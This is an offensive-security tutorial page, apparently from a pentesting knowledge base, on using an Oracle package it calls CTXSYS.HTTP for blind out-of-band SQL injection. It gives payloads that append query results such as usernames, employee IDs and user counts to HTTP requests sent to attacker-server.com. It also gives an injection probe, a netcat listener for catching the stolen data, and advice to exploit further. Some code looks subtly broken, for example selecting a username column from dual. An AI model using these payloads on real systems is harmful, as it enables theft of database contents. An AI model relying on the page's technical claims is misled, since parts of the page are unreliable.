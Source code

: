```yaml
---
title: 'CTXSYS.HTTP: Leveraging Oracle for Blind Injection'
description: Learn how CTXSYS.HTTP enables data exfiltration in Oracle blind out-of-band
  injections.
keywords:
- CTXSYS.HTTP
- Oracle SQL Injection
- Blind Out-of-Band
- Data Exfiltration
- Network ACLs
- SQL Payloads
- HTTP Requests
---
```


# CTXSYS.HTTP

## Context

The CTXSYS.HTTP package is part of the Oracle Text component that enables Oracle databases to perform HTTP requests. This capability can be exploited to conduct SQL injection attacks, specifically blind out-of-band injections, by sending requests to external servers and retrieving data from an Oracle database via HTTP.

## Theory

In the realm of blind out-of-band injection, CTXSYS.HTTP can be a crucial vector for exfiltrating data. By leveraging Oracle's ability to perform HTTP requests, attackers can create scenarios where the database silently sends out data to an external server controlled by the attacker.

The high-level idea here is to find an SQL injection point within an Oracle application, enable necessary network access controls (ACLs), and utilize the CTXSYS.HTTP package to initiate HTTP requests that subtly transfer data outside the intended network boundaries.

```mermaid
graph TD;
    A[Identify SQL Injection] --> B{Enable Network ACLs};
    B --> C[CTXSYS.HTTP Call to External Server];
    B --> D[Create HTTP Request with SQL Payload];
    C --> E[Oracle Responses Exfiltrate Data];
```

## Practice

### Identify SQL Injection Point

The first step is to identify a vulnerable SQL injection point within the Oracle database application. This requires analyzing the application's input fields, especially those that interact with the database directly.

**Explanation:**

Identify potential SQL injection points by scrutinizing input fields or API endpoints where dynamic SQL queries are constructed and executed.

**Command Example:**

```sql
SELECT employee_id, first_name, last_name FROM employees WHERE department_id = '10' AND '1'='1';
```

### Enable Network ACLs

To perform HTTP requests, the Oracle database must have the appropriate network access controls (ACLs) enabled. These controls dictate which external networks the database can communicate with.

**Explanation:**

Configure the Oracle database's network ACLs to allow outbound HTTP requests required for the data exfiltration attempt.

### Craft CTXSYS.HTTP Request

Crafting the SQL payload involves creating a well-formed HTTP request through the CTXSYS.HTTP package that will send sensitive data to an external server.

**Explanation:**

Formulate a SQL payload to execute an HTTP request using CTXSYS.HTTP, including any needed SQL logic to capture sensitive data within the database.

**Example Payloads:**

1. **Basic Request:**
   ```sql
   EXEC CTXSYS.HTTP.REQUEST('http://attacker-server.com:8080/data?info=' || (SELECT username FROM dual));
   ```

2. **Advanced Data Extraction:**
   ```sql
   EXEC CTXSYS.HTTP.REQUEST('http://attacker-server.com:8080/data?id=' || (SELECT employee_id FROM employees WHERE ROWNUM = 1));
   ```

### Execute HTTP Call

Leverage the CTXSYS.HTTP package to execute the constructed HTTP request, thereby transferring data to an external server.

**Command Example:**

```sql
EXEC CTXSYS.HTTP.REQUEST('http://attacker-server.com:8080/transfer?data=' || (SELECT COUNT(*) FROM users));
```

### Capture Out-of-Band Responses

Monitoring the external server for HTTP requests sent by the Oracle database is crucial in validating successful data exfiltration.

**Explanation:**

Set up a server to monitor incoming HTTP requests generated from the Oracle database, allowing to capture and analyze the exfiltrated data.

**Example Setup:**
Using `Netcat` for listening on the external server:

```bash
nc -lvkp 8080
```

### Tools

- **Wireshark:** For packet capturing and analysis to observe network-level data flows.
- **SQLMap:** For automating SQL injection discovery and exploitation.
- **Burp Suite:** For intercepting HTTP traffic and modifying requests for exploration.
- **Netcat:** As a network utility for monitoring communication to the attacker's server.

### Result Usage

Once the data has been exfiltrated using CTXSYS.HTTP, analyze it to determine the granularity and sensitivity of the information extracted. This can provide insights into the application's internal database structure and potential vulnerabilities that can be further exploited for consequential attacks.